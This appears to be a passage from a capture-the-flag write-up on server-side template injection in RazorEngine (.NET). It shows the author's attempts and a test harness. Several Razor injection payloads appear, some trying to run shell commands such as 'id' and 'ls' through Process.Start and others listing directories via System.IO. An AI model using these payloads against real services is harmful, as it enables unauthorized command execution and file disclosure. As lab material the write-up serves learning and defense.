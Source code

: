 Result:

```console
$ dotnet run
Unhandled exception. RazorEngine.Templating.TemplateCompilationException: Errors while compiling a Template.
Please try the following to solve the situation:
  * If the problem is about missing/invalid references or multiple defines either try to load
    the missing references manually (in the compiling appdomain!) or
    Specify your references manually by providing your own IReferenceResolver implementation.
    See https://antaris.github.io/RazorEngine/ReferenceResolver.html for details.
    Currently all references have to be available as files!
  * If you get 'class' does not contain a definition for 'member':
        try another modelType (for example 'null' to make the model dynamic).
        NOTE: You CANNOT use typeof(dynamic) to make the model dynamic!
    Or try to use static instead of anonymous/dynamic types.
More details about the error:
 - error: (15, 18) The type name 'Process' could not be found in the namespace 'System.Diagnostics'. This type has been forwarded to assembly 'System.Diagnostics.Process, Version=6.0.0.0, Culture=neutral, PublicKeyToken=b03f5f7f11d50a3a' Consider adding a reference to that assembly.
Temporary files of the compilation can be found in (please delete the folder): /tmp/RazorEngine_kedmehed.edv
The template we tried to compile is:
------------- START -----------
@(1)@System.Diagnostics.Process.Start("id")@(1)
------------- END -----------
(snip)
```

After testing in the local environment, it couldn't be used too.
Even with `1)@using System.Diagnostics.Process@(1`, the same error occurred.

Upon searching for other available functionalities, I found that `Directory.GetFileSystemEntries` and `File.ReadAllText` from System.IO could be used.

```csharp
// Program.cs
namespace TestApp;

using RazorEngine;
using RazorEngine.Templating;
class Program
{
    static void Main(string[] args)
    {
        // write file:
        // local OK, challenge NG
        // string text = "pwned";
        // File.WriteAllText("test.txt", text);

        // shell command:
        // local NG, challenge NG
        // var calculation = "@code { @System.Diagnostics.Process.Start(\"id\");}";
        // var calculation = "13371337)@using System.Diagnostics @{System.Diagnostics.ProcessStartInfo(\"ls\");}@(13371337";

        // get current directory name:
        // local OK, challenge OK
        // var calculation = "13371337)@using System.IO@{var dir=Directory.GetCurrentDirectory();}@dir@(13371337";

        // directory listing:
        // local OK, challenge OK
        // var calculation = "13371337)@using System.IO @{var output=string.Join(\"    \",Directory.GetFileSystemEntries(\".\"));}@output@(13371337";

```